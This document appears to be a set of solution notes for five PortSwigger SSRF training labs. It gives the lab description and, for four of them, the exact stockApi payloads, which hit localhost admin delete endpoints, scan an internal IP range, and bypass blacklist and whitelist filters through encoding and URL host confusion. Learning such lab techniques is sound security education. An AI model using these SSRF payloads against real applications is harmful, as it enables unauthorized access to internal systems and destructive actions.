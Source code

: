 # 1. Lab: [Basic SSRF against the local server](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

```bash
stockApi=http://127.0.0.1/admin/delete?username=carlos
```

# 2. Lab: [Basic SSRF against another back-end system](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system\)

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos.
in intruder scan:

```bash
stockApi=http%3A%2F%2F192.168.0.§1§%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
```

in repairer:

```bash
stockApi=http://192.168.0.76:8080/admin/delete?username=carlos
```

# 3. Lab: [SSRF with blacklist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed two weak anti-SSRF defenses that you will need to bypass.

```bash
stockApi=http://127.1/%2561dmin/delete?username=carlos
```

# 4. Lab: [SSRF with whitelist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter)

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed an anti-SSRF defense you will need to bypass.

address:

```bash
http://localhost/admin
```

limitation:

```bash
"External stock check host must be stock.weliketoshop.net"
```

payload:

```json
stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

# 5. Lab: [SSRF with filter bypass via open redirection vulnerability](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos.

The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.
